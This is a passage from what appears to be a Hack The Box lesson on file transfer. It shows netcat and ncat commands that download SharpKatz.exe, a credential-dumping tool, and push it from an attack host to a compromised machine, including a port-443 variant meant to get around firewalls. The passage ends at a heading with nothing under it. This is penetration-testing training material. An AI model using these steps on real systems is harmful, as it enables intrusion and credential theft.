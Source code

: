 ```shell
victim@target:~$ # Example using Ncat
victim@target:~$ ncat -l -p 8000 --recv-only > SharpKatz.exe
```

From our attack host, we'll connect to the compromised machine on port 8000 using Netcat and send the file [SharpKatz.exe](https://github.com/Flangvik/SharpCollection/raw/master/NetFramework_4.7_x64/SharpKatz.exe) as input to Netcat. The option `-q 0` will tell Netcat to close the connection once it finishes. That way, we'll know when the file transfer was completed.

#### Netcat - Attack Host - Sending File to Compromised machine

Miscellaneous File Transfer Methods

```shell
6165@htb[/htb]$ wget -q https://github.com/Flangvik/SharpCollection/raw/master/NetFramework_4.7_x64/SharpKatz.exe
6165@htb[/htb]$ # Example using Original Netcat
6165@htb[/htb]$ nc -q 0 192.168.49.128 8000 < SharpKatz.exe
```

By utilizing Ncat on our attacking host, we can opt for `--send-only` rather than `-q`. The `--send-only` flag, when used in both connect and listen modes, prompts Ncat to terminate once its input is exhausted. Typically, Ncat would continue running until the network connection is closed, as the remote side may transmit additional data. However, with `--send-only`, there is no need to anticipate further incoming information.

#### Ncat - Attack Host - Sending File to Compromised machine

Miscellaneous File Transfer Methods

```shell
6165@htb[/htb]$ wget -q https://github.com/Flangvik/SharpCollection/raw/master/NetFramework_4.7_x64/SharpKatz.exe
6165@htb[/htb]$ # Example using Ncat
6165@htb[/htb]$ ncat --send-only 192.168.49.128 8000 < SharpKatz.exe
```

Instead of listening on our compromised machine, we can connect to a port on our attack host to perform the file transfer operation. This method is useful in scenarios where there's a firewall blocking inbound connections. Let's listen on port 443 on our Pwnbox and send the file [SharpKatz.exe](https://github.com/Flangvik/SharpCollection/raw/master/NetFramework_4.7_x64/SharpKatz.exe) as input to Netcat.

#### Attack Host - Sending File as Input to Netcat

Miscellaneous File Transfer Methods

```shell
6165@htb[/htb]$ # Example using Original Netcat
6165@htb[/htb]$ sudo nc -l -p 443 -q 0 < SharpKatz.exe
```

#### Compromised Machine Connect to Netcat to Receive the File
